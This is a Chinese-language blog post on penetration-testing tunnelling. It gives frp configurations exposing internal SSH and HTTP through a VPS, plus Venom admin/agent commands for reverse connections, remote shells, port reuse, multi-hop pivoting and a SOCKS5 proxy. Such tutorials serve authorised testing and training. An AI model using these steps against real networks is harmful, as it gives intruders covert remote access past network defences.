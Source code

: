 ```yaml
---
layout:     post
title:      内网渗透 常用的隧道代理技术
subtitle:   简单整理一下工具的使用
date:       2021-7-21
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/eda78d9e2f9bebcce9502f06e8a7dcbc.png
catalog: true
tags:
    - 渗透测试
---
```


### frp 内网穿透

https://github.com/fatedier/frp



将内网的服务代理到公网vps中



vps 上配置( frps.ini)

```ini
[common]
bind_port = 8005        # 隧道绑定的端口
token = 123456789       # 认证密码
vhost_http_port = 8007   # 内网http服务映射到公网vps上的port
vhost_https_port = 8007   #内网https服务映射到公网vps上的port
```



内网服务(frpc.ini)

```ini
[common]
server_addr = vps_ip
server_port = 8005
token = 123456789

[ssh]  # 转发内网ssh  转发其他端口也一样 名称无所谓
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 8006

[web] # 转发内网 http
custom_domains = vps_ip
type = http
local_port = 80
```



vps 上执行

```shell
./frps -c frps.ini
```

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201116221208.png)

客户端

```shell
./frpc -c frpc.ini
```

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201116221303.png)







ssh 连接 vps对应ssh端口

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201116221402.png)







web 服务

(内)

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201116221533.png)



（外）

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201116221612.png)



### Venom

项目地址 https://github.com/Dliv3/Venom

#### 基本使用

![image-20210225214211935](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210225214211935.png)



```bash
#admin端
admin -lport 8888
#客户端
agent -rhost ip -rport 8888
```



![image-20210225214537858](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210225214537858.png)



```bash
show # 查看已连接的shell。（包含拓扑
goto  1 # 序号
shell # 进行连接shell
```



![image-20210226195928859](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210226195928859.png)

![image-20210225214557187](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210225214557187.png)



#### 端口复用

在其他端口不开放的情况下 可以端口复用

```bash
#windows下 ip为执行命令的ip
agent.exe -lhost ip -reuse-port 80 
#监听
admin.exe -rhost ip -port 80
```

![A0E776A3AC9FD94BC5E786AA90EA2FDC](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/A0E776A3AC9FD94BC5E786AA90EA2FDC.png)



![3C54B43A-5B5D-4B83-84B4-0ECCAEB45102](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/3C54B43A-5B5D-4B83-84B4-0ECCAEB45102.png)



#### 多级代理

起一个**admin (Mac os  192.168.0.127)**

```bash
./admin_macos_x64 -lport 8888
```



再启动一个**agent (Windows。192.168.0.157)** 连接admin

```bash
./agent.exe -rhost 192.168.0.127 -rport 8888
```

![image-20210302150229577](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210302150229577.png)

下层网络启动 **agent (windows 下的虚拟机   192.168.56.105)**

```bash
./agent_linux_x64 -lport 8888
```

![image-20210302152344989](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210302152344989.png)



Admin 下查看show

![image-20210302151249120](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210302151249120.png)



然后进入 1节点。也就是windows 然后连接虚拟机的agent

```
goto 1
connect 192.168.56.105 8888
```

![image-20210302153544515](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210302153544515.png)



最后 goto 2 就是进入了win 的虚拟机里了

![image-20210302145715850](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210302145715850.png)



#### sock5代理

在想要代理出流量的节点上执行如下 

```
socks 端口号
```

![image-20210302162347843](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210302162347843.png)

执行后会在本地出现一个代理端口为 7777

然后用socks 连接工具连接上即可

![image-20210302162629753](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210302162629753.png)



这里用proxychains 访问的结果一致

![image-20210302162706501](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210302162706501.png)